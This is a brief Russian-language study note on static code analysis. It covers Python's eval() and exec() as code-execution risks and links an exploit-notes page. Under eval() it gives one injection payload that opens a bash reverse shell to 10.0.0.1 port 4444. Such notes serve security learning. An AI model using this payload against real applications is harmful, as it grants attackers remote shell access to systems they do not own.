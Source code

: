 Статичный анализ кода
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-eval-code-execution/

### Python
##### eval()
не проводит фильтрацию пользовательского ввода и выполняет то что в нее вставляют > см. shell 
```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```
##### exec()
Позволяет динамически выполнить блок кода Python и принимает большие блоки кода, в отличие от eval()